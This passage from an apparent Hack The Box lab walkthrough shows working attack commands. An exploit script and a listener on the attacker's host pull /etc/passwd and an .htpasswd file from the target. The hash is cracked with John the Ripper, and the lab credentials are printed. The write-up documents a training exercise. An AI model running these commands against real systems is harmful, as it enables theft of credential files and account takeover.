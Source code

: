 ```bash
  --data-urlencode "manage_api=$xml" -o -
```
{:file="exploit.sh"}

Now we can easily read files while `exploit-server.py`{:.filepath} runs in the background and logs the file contents to `exploit-server.log`{:.filepath}.

```bash
# bryan@red_team (bash)
session="" # your admin PHPSESSID cookie value
python3 ./exploit-server.py $lhost &>/dev/null &
chmod +x exploit.sh
alias exploit="`pwd`/exploit.sh $session $lhost" # create alias for speed
exploit /etc/passwd # read /etc/passwd from target
```
{:.nolineno}

We successfully read `/etc/passwd`{:.filepath}!

> If the exploit stops working, your session has probably expired. Try re-authenticating
{:.prompt-warning}

### Developers Site

Since the web backend uses Apache and <http://developers.collect.htb> required HTTP Basic authentication, there is probably a `.htpasswd`{:.filepath} file in that site's web root.
The web root's parent directory is probably `/var/www`{:.filepath} and considering naming conventions, the directory name is probably something like `developers`{:.filepath} or `developers.collect.htb`{:.filepath}.

```bash
# bryan@red_team (bash)
exploit /var/www/developers/.htpasswd # Bingo!
```
{:.nolineno}

The password here is hashed, but we can try to crack it with [John the Ripper](https://github.com/openwall/john).

```bash
# bryan@red_team (bash)
cat exploit-server.log | grep 'htpasswd' | tail -1 | cut -d\| -f2 | base64 -d > hash.john
john --wordlist=rockyou.txt --format=md5crypt-long ./hash.john # get to cracking
```
{:.nolineno}

We successfully crack the hash! Now we should be able to access <http://developers.collect.htb> with the username **developers_group** and the password **r0cket**.

#### Authentication

Once we pass HTTP basic authentication, we get redirected to a login page at [/login.php](http://developers.collect.htb/login.php).

![Developers site login](developers-login.png)

